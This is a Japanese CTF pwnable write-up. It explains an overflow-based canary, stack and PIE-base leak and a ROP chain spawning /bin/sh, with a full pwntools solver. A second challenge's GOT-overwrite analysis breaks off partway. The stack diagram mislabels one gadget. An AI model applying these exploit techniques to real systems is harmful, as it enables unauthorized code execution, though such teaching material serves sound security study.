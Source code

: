 *** chall_stack
    問題
#+begin_src c
#include <stdio.h>
#include <unistd.h>

int main(void){
	char msg[0x10] = {};

	setbuf(stdout, NULL);

	puts("You can put message 4 times!");
	for(int i=0; i<4; i++){
		printf("Input (%d/4) >> ", i+1);
		read(STDIN_FILENO, msg, 0x70);
		printf("Output : %s\n", msg);
	}
	puts("Bye!");

	return 0;
}


#+end_src
    
    #+begin_example
shiba@shiba-Endeavor-MR4900:~/ctfbook/pwnable/99_challs/stack$ checksec --file chall_stack[!] Did not find any GOT entries
[*] '/home/shiba/ctfbook/pwnable/99_challs/stack/chall_stack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    #+end_example

    ソースコードから、 ~read~ において、 ~0x60~ バイトだけスタックバッファオーバフローが発生することがわかる。
    しかし、checksecの結果からわかる通り、SSPが有効である。
    このため、リターンアドレスを書き換えるためには、canaryの特定が必要となる。
    また、PIEが有効であることから、ROPを組むために実行ファイルのベースアドレスの特定も必要となる。
    また、 ~"/bin/sh"~ を書き込むのに便利な ~bss~ 領域のアドレスもランダム化されてしまうため、
    シェル起動に必要となる ~"/bin/sh"~ を書き込むための領域として、スタックか ~bss~ 領域のアドレスリークが必要となる。

    ここで、もう一度ソースコードを見てみると、
    ~read~ は、入力文字列の最後に終端文字( ~\x00~ )が追加されないこと、
    および、 ~read~ 直後に入力した ~msg~ の内容が出力されることから、 ~msg~ を利用したcanaryの特定が可能なことがわかる。

   また、実行ファイルやスタックのアドレスに関しては、スタックに残っている情報から漏洩できないかGDBで動作させながら調査する。

**** canaryの特定
     それでは、早速 ~hoge~ を入力した状態のスタックを確認する。
     #+begin_example
gef➤  dps
0x00007fffffffdb20│+0x0000: 0x00007fffffffdc88  →  0x00007fffffffe039  →  "/home/shiba/ctfbook/pwnable/99_challs/stack/chall_[...]"        ← $rsp
0x00007fffffffdb28│+0x0008: 0x0000000000000000
0x00007fffffffdb30│+0x0010: 0x0000000a65676f68 ("hoge\n"?)       ← $rsi
0x00007fffffffdb38│+0x0018: 0x0000000000000000
0x00007fffffffdb40│+0x0020: 0x0000000000000000
0x00007fffffffdb48│+0x0028: 0xdf8c8d9831278700
0x00007fffffffdb50│+0x0030: 0x00007ffff7f3b180  →  <__libc_csu_init+0> endbr64   ← $rbp
0x00007fffffffdb58│+0x0038: 0x00007ffff7f3a9b0  →  <__libc_start_main+1168> mov edi, eax
0x00007fffffffdb60│+0x0040: 0x0000000000000000
0x00007fffffffdb68│+0x0048: 0x0000000100000000
gef➤
0x00007fffffffdb70│+0x0050: 0x00007fffffffdc88  →  0x00007fffffffe039  →  "/home/shiba/ctfbook/pwnable/99_challs/stack/chall_[...]"
0x00007fffffffdb78│+0x0058: 0x00007ffff7f3a0c9  →  <main+0> endbr64
...
     #+end_example

     すると、 ~hoge~ が存在する ~rsp+0x10~ のアドレスが、 ~msg~ のアドレスであると推測できる。
     ここで、 canaryは ~rsp+0x28~ に存在していることも確認できる。
     また、 ~rsp+0x50~ のアドレスにおいて、スタックのアドレスが、
     ~rsp+0x58~ のアドレスにおいて、 ~main~ のアドレスが落ちていることも確認できる。
     これらの値を特定し、必要な情報を集めることで、シェルを起動できそうである。

     そこで、まず最初にcanaryの特定を行う。
     canaryの最初の ~\x00~ までを書き潰し、残りの7バイトを漏洩させるため、 ~0x19~ バイトの入力を行ってみる。

     #+begin_example
You can put message 4 times!
Input (1/4) >> Output : aaaaaaaaaaaaaaaaaaaaaaaaa\x1bM4R7\x9fĀ\xc1\xbeA\xec
Input (2/4) >> 
     #+end_example
     すると、上記のようにcanaryと思われる内容が漏洩していることを確認できる。

     そこで、GDBを利用して、漏洩した内容と実際のcanaryを比較してみる。

     漏洩した内容
     #+begin_example
[*] canary = 0xb1e31b1661ef7500
     #+end_example

     スタックの状態
     #+begin_example
gef➤  dps
0x00007ffd72921a00│+0x0000: 0x00007ffd72921b68  →  0x00007ffd72922074  →  "./chall_stack"	 ← $rsp
0x00007ffd72921a08│+0x0008: 0x0000000100000000
0x00007ffd72921a10│+0x0010: 0x6161616161616161	 ← $rax, $rsi
0x00007ffd72921a18│+0x0018: 0x6161616161616161
0x00007ffd72921a20│+0x0020: 0x6161616161616161
0x00007ffd72921a28│+0x0028: 0xb1e31b1661ef7521
0x00007ffd72921a30│+0x0030: 0x00007f1de82a1180  →  <__libc_csu_init+0> endbr64  ← $rbp
     #+end_example

     上記の結果か、無事にcanaryを特定することができたことがわかる。

     それでは、次にスタックのアドレスの特定を行う。

**** スタックのアドレスの特定
     先述したように、スタックの ~rsp+0x50~ のアドレスに、スタックののアドレスが落ちている。
    このため、canaryを特定したときと同様にこのアドレスを漏洩させる。
     
    漏洩した内容
    #+begin_example
[*] stack_leak = 0x7ffde10d8da8
    #+end_example

    スタックの状態
    #+begin_example
...    
0x00007ffde10d8c80│+0x0040: 0x6262626262626262
0x00007ffde10d8c88│+0x0048: 0x2162626262626262    
0x00007ffde10d8c90│+0x0050: 0x00007ffde10d8da8  →  0x00007ffde10da074  →  "./chall_stack"
...
    #+end_example

    こちらも、同様にアドレスの特定に成功していることが確認できる。

    リークしたスタックのアドレスは、スタック上に格納する ~"/bin/sh"~ の文字列のアドレスを特定するために使用する。
    そこで、予めリークしたアドレスと ~msg~ が格納されるアドレスを求めておく。
    #+begin_src python
      stack_diff = 0x00007ffde10d8da8-0x00007ffde10d8c50
      msg_addr = stack_leak - stack_diff
    #+end_src
    
    それでは、次にROPを組むために実行ファイルのベースアドレスの特定を行う。

**** 実行ファイルのベースアドレスの特定
    先述したように、スタックの ~rsp+0x58~ のアドレスに、 ~main~ の先頭のアドレスが落ちている。
    これも同様にアドレスを漏洩させる。

    漏洩した内容
    #+begin_example
[*] main_leak = 0x7eff7dbe90c9
    #+end_example

    スタックの状態
    #+begin_example
...    
0x00007ffd5b9c8198│+0x0048: 0x6262626262626262
0x00007ffd5b9c81a0│+0x0050: 0x2162626262626262
0x00007ffd5b9c81a8│+0x0058: 0x00007eff7dbe90c9  →  <main+0> endbr64
...
    #+end_example

    こちらも、同様にアドレスの特定に成功していることが確認できる。

    リークした ~main~ のアドレスから、実行ファイルのベースアドレスを特定する。
    そこで、実行ファイルの ~main~ のアドレスとリークした ~main~ のアドレスの差分を計算する。
    #+begin_src python
chall_base = main_leak - main_addr
    #+end_src

    最後に、 ~"/bin/sh"~ を用意し、シェルを起動するROPを作成する。 

**** ROPチェーンの作成
     最後の入力では、 ~msg~ の最初に ~/bin/sh\x00~ を挿入し、canaryが存在した場所には、先程特定したcanaryの値入るように調整する。
     そして、リターンアドレスがあった ~rsp+0x38~ からシェルを起動するためのROPチェーンを配置する。

     ここで組むROPは、ただシェルを起動できればよいため、 ~execve("/bin/sh", 0, 0)~ となるようにそれぞれのレジスタに値を挿入していく。
     
     ROPガジェットは、 ~chall_base~ を加算しないと正しいアドレスにならないため、注意する。

     スタックのイメージ
     #+begin_example
     |---------------|
     | "/bin/sh\x00" | <-msg_addr
     | "aaaaaaaa"    |
     | "aaaaaaaa"    |
     | canary        |
     | "bbbbbbbb"    |
     | pop rdx       |
     | 0x0           |
     | pop rsi       |
     | 0x0           |
     | pop rdx       |
     | msg_addr      |
     | pop rax       |
     | 59            |
     | syscall       |
     |---------------|
     #+end_example

     
**** Solver
     #+begin_src python
from pwn import *

filename = './chall_stack'
chall = ELF(filename)

# conn = remote('localhost', 9001)
conn = process(filename)
# conn = gdb.debug(filename, '''
# aslr on
# b main
# p 26''')

# ROP gadget
main_addr = chall.functions['main'].address
## 0x0000000000009643: syscall;
syscall = 0x0000000000009643
## 0x0000000000059a27: pop rax; ret;
pop_rax = 0x0000000000059a27
## 0x0000000000009c3a: pop rdi; ret;
pop_rdi = 0x0000000000009c3a
## 0x00000000000177ce: pop rsi; ret;
pop_rsi = 0x00000000000177ce
## 0x0000000000009b3f: pop rdx; ret;
pop_rdx = 0x0000000000009b3f


# Fist input
buf1 = b'a'*(0x28-0x10)
buf1 += b'!'
conn.sendafter(b'Input (1/4) >> ', buf1)
conn.recvuntil(b'aaaa!')
canary = b'\x00' + conn.recv(0x7)
info("canary = 0x{:08x}".format(u64(canary)))

# Second input
buf2 = b'b'*(0x4f-0x10)
buf2 += b'!'
conn.sendafter(b'Input (2/4) >> ', buf2)
conn.recvuntil(b'bbbb!')
stack_leak = u64(conn.recv(0x6)+b'\x00\x00')
stack_diff = 0x00007ffde10d8da8-0x00007ffde10d8c50
msg_addr = stack_leak - stack_diff
info("stack_leak = 0x{:08x}".format(stack_leak))
info("msg_addr = 0x{:08x}".format(msg_addr))

# Third input
buf3 = b'c'*(0x57-0x10)
buf3 += b'!'
conn.sendafter(b'Input (3/4) >> ', buf3)
conn.recvuntil(b'cccc!')
main_leak = u64(conn.recv(0x6)+b'\x00\x00')
chall_base = main_leak - main_addr
info("main_leak = 0x{:08x}".format(main_leak))
info("chall_base = 0x{:08x}".format(chall_base))

# Forth input
buf4 = b"/bin/sh\x00"
buf4 += b'a'*(0x28-0x10-len(buf4))
buf4 += canary
buf4 += b'b'*0x8
buf4 += p64(pop_rdx + chall_base)
buf4 += p64(0x0)
buf4 += p64(pop_rsi + chall_base)
buf4 += p64(0x0)
buf4 += p64(pop_rdi + chall_base)
buf4 += p64(msg_addr)
buf4 += p64(pop_rax + chall_base)
buf4 += p64(59)
buf4 += p64(syscall + chall_base)
conn.sendafter(b'Input (4/4) >> ', buf4)

conn.interactive()

     #+end_src
     
     #+begin_example
shiba@shiba-Endeavor-MR4900:~/ctfbook/pwnable/99_challs/stack$ python solve.py
[!] Did not find any GOT entries
[*] '/home/shiba/ctfbook/pwnable/99_challs/stack/chall_stack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall_stack': pid 27533
[*] canary = 0x522e8a24383c9c00
[*] stack_leak = 0x7fff290b1098
[*] msg_addr = 0x7fff290b0f40
[*] main_leak = 0x7f3b6f01f0c9
[*] chall_base = 0x7f3b6f015000
[*] Switching to interactive mode
Output : /bin/sh
Bye!
$ id
uid=1000(shiba) gid=1000(shiba) groups=1000(shiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(kvm),120(lpadmin),132(lxd),133(sambashare),998(docker)
     #+end_example
    
    

    
    
*** chall_resolve
**** 問題
     #+begin_src c
#include <stdio.h>
#include <unistd.h>

int main(void){
	char msg[0x10] = {};
	void **p;

	setbuf(stdout, NULL);

	printf("Input message >> ");
	fgets(msg, 0x80, stdin);

	printf("Input address >> ");
	scanf("%p", &p);
	printf("Input value   >> ");
	scanf("%p", p);

	return 0;
}
     #+end_src
     
     #+begin_example
shiba@shiba-Endeavor-MR4900:~/ctfbook/pwnable/99_challs/resolve$ checksec --file chall_resolve
[*] '/home/shiba/ctfbook/pwnable/99_challs/resolve/chall_resolve'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
     #+end_example

     まず、実行ファイルにchecksecを利用すると、RELROが適用されていないこと、またPIEが無効であることがわかる。

     そして、ソースコードを見てみると、このプログラムでは ~msg~ に文字列入力を行った後、任意のアドレスに任意の値を書き込むことができる。
     また、 ~fgets~ において、スタックバッファオーバフローの脆弱性が存在していることがわかる。

     そこで、SSPを回避するため、 ~__stack_chk_fail~ のGOTを書き換え、RIPを奪うことを考えていく。

**** AAWの作成
     まず、このプログラムでは、1度だけAAWが可能なものの、AAW後にプログラムが終了してしまう。
     そこで、先述した通り、 ~__stack_chk_fail~ のGOTを ~main~ のアドレスに書き換えることで、
     繰り返しプログラムを呼び出すことを目標とする。

     そこで、まず最初にGOTを ~main~ に書き換え、 ~__stack_chk_fail~ が呼び出されるように、スタックバッファオーバフローを引き起す入力を行う。

     #+begin_example
gef➤  dps
0x00007fffffffdb50│+0x0000: 0x00007ffff7fae2e8  →  0x0000000000000000    ← $rsp
0x00007fffffffdb58│+0x0008: 0x0000000000401240  →  <__libc_csu_init+0> endbr64
0x00007fffffffdb60│+0x0010: 0x0000000a65676f68 ("hoge\n"?)       ← $rax, $r8
0x00007fffffffdb68│+0x0018: 0x0000000000000000
0x00007fffffffdb70│+0x0020: 0x00007fffffffdc70  →  0x0000000000000001
0x00007fffffffdb78│+0x0028: 0xa1d05dcf72cedc00
0x00007fffffffdb80│+0x0030: 0x0000000000000000   ← $rbp
0x00007fffffffdb88│+0x0038: 0x00007ffff7de1083  →  <__libc_start_main+243> mov edi, eax
...
     #+end_example
     ~msg~ に ~hoge~ を入力したときのスタックの状態を確認してみる。
     すると、 ~rsp+0x10~ に ~msg~ の領域が確保されていることがわかる。
     また、canaryは ~rsp+0x28~ に配置されていることがわかる。

     
